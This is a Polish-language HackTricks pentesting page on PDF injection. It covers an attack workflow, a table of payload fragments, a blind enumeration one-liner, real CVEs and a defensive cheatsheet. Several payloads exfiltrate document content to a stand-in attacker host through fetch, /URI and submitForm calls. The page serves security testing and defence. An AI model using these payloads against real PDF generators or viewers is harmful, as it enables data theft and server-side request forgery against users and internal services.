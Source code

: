 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Jeśli twój input jest odzwierciedlany w pliku PDF, możesz spróbować wstrzyknąć dane PDF, aby wykonać JavaScript, przeprowadzić SSRF lub ukraść zawartość PDF.**
Składnia PDF jest niezwykle elastyczna – jeśli możesz wydostać się z ciągu lub słownika, który osadza twój input, możesz dodać całkowicie nowe obiekty (lub nowe klucze w tym samym obiekcie), które Acrobat/Chrome chętnie zanalizuje.
Od 2024 roku fala raportów o bug-bounty pokazała, że *jedna nieucieczona nawias lub ukośnik jest wystarczająca* do pełnego wykonania skryptu.

## TL;DR – Nowoczesny Workflow Ataku (2024)
1. Znajdź dowolną wartość kontrolowaną przez użytkownika, która trafia do **(ciągu nawiasowego)**, `/URI ( … )` lub `/JS ( … )` w wygenerowanym PDF.
2. Wstrzyknij `) ` (zamykając ciąg) po którym następuje jeden z poniższych prymitywów i zakończ kolejnym otwierającym nawiasem, aby zachować poprawność składni.
3. Dostarcz złośliwy plik PDF do ofiary (lub do usługi backendowej, która automatycznie renderuje plik – świetne dla ślepych błędów).
4. Twój ładunek działa w przeglądarce PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (zobacz CVE-2024-4367)
* Acrobat → Pełne API JavaScript (może wyeksportować dowolne zawartości plików za pomocą `this.getPageNthWord`)

Przykład (przechwycenie linku adnotacji):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Pierwszy `)` zamyka oryginalny ciąg URI, następnie dodajemy nowy **słownik Akcji**, który Acrobat wykona, gdy użytkownik kliknie link.*

## Przydatne Prymitywy Wstrzykiwania
| Cel | Fragment Ładunku | Uwagi |
|------|-----------------|-------|
| **JavaScript przy otwarciu** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Wykonywane natychmiast po otwarciu dokumentu (działa w Acrobat, nie w Chrome). |
| **JavaScript przy linku** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Działa w PDFium i Acrobat, jeśli kontrolujesz adnotację `/Link`. |
| **Ślepe wyciek danych** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Połącz z `this.getPageNthWord` wewnątrz JS, aby ukraść treść. |
| **Server-Side SSRF** | To samo co powyżej, ale celuj w wewnętrzny URL – świetne, gdy PDF jest renderowany przez usługi back-office, które honorują `/URI`. |
| **Złamanie linii dla nowych obiektów** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Jeśli biblioteka pozwala na wstrzykiwanie znaków nowej linii, możesz tworzyć zupełnie nowe obiekty. |

## Sztuczka Ślepej Enumeracji
Gareth Heyes (PortSwigger) opublikował jedną linię kodu, która enumeruje każdy obiekt w nieznanym dokumencie – przydatne, gdy nie możesz zobaczyć wygenerowanego PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Kod iteruje po DOM Acrobat i wykonuje zewnętrzne żądania dla każdej pary właściwość/wartość, dając ci *JSON-owy* zrzut pliku. Zobacz dokument "Portable Data **ex**Filtration" dla pełnej techniki.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Dowolne wykonanie JavaScript w PDF.js Firefoxa przed 4.2.67 omijało piaskownicę za pomocą spreparowanej akcji `/JavaScript`.
* **Bug bounty 2024-05** – Główny fintech pozwolił na notatki faktur dostarczane przez klientów, które trafiły do `/URI`; raport zapłacono 10 tys. dolarów po wykazaniu SSRF do wewnętrznego hosta metadanych za pomocą URI `file:///`.
* **CVE-2023-26155** – `node-qpdf` wstrzyknięcie polecenia przez niesanitowaną ścieżkę PDF pokazuje znaczenie ucieczki ukośników i nawiasów nawet *przed* warstwą PDF.

## Defensive Cheatsheet
1. **Nigdy nie łącz surowego wejścia użytkownika** wewnątrz `(`…`)` ciągów lub nazw. Użyj ucieczki `\`, `(`, `)` zgodnie z §7.3 specyfikacji PDF lub użyj ciągów szesnastkowych `<...>`.
2. Jeśli tworzysz linki, preferuj `/URI (https://…)`, które *w pełni* kodujesz URL; blokuj schematy `javascript:` w klientach.
3. Usuń lub zwaliduj słowniki `/OpenAction`, `/AA` (dodatkowe akcje), `/Launch`, `/SubmitForm` i `/ImportData` podczas przetwarzania PDF.
4. Po stronie serwera renderuj nieufne PDF-y za pomocą *konwertera bezgłowego* (np. qpdf –decrypt –linearize), który usuwa JavaScript i zewnętrzne akcje.
5. Utrzymuj przeglądarki PDF w aktualizacji; PDF.js < 4.2.67 i Acrobat Reader przed lipcem 2024 pozwalają na trywialne wykonanie kodu.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (zaktualizowane maj 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (kwiecień 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
